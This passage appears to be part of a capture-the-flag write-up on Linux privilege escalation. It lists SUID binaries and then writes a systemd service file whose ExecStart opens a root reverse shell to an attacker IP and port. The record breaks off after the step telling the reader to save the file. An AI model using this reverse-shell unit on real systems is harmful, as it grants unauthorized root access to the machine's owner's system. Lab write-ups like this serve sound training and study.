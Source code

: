 Use

>**find / -perm -u=s -type f 2>/dev/null**

to search for files with a misconfigured SUID let us to get root privileges
```js
$ find / -perm -u=s -type f 2>/dev/null   
/usr/bin/newuidmap
/usr/bin/chfn
/usr/bin/newgidmap
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/pkexec
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/at
/usr/lib/snapd/snap-confine
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/bin/su
/bin/mount
/bin/umount
/bin/systemctl
/bin/fusermount
/snap/snapd/24505/usr/lib/snapd/snap-confine
/snap/core20/2582/usr/bin/chfn
/snap/core20/2582/usr/bin/chsh
/snap/core20/2582/usr/bin/gpasswd
/snap/core20/2582/usr/bin/mount
/snap/core20/2582/usr/bin/newgrp
/snap/core20/2582/usr/bin/passwd
/snap/core20/2582/usr/bin/su
/snap/core20/2582/usr/bin/sudo
/snap/core20/2582/usr/bin/umount
/snap/core20/2582/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core20/2582/usr/lib/openssh/ssh-keysign
/sbin/mount.cifs
$ 
```
#### The /bin/systemctl file looks intersest. 


> Target virtual machine can NOT run a text editor . Created - in attack vm - a file name root.service with the below content.

```js
[Unit]
Description=root

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/10.11.139.85/9999 0>&1'

[Install]
WantedBy=multi-user.target
```
1. save this file as root.service
